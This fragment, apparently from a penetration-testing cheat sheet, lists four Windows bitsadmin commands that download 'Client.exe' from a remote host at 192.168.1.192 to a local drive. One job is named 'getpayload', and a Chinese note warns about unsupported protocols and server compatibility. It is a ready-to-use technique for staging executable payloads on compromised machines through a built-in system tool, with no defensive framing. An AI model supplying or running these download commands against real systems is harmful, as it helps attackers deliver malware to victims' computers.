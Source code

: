 	不支持https、ftp协议，php python带的服务器会出错
	>bitsadmin /transfer n http://192.168.1.192/Client.exe  e:\1.exe
	>bitsadmin /rawreturn /transfer getfile http://192.168.1.192/Client.exe e:\1.exe
	>bitsadmin /rawreturn /transfer getpayload http://192.168.1.192/Client.exe e:\1.exe
	>bitsadmin /transfer myDownLoadJob /download /priority normal "http://192.168.1.192/Client.exe" "e:\1.exe "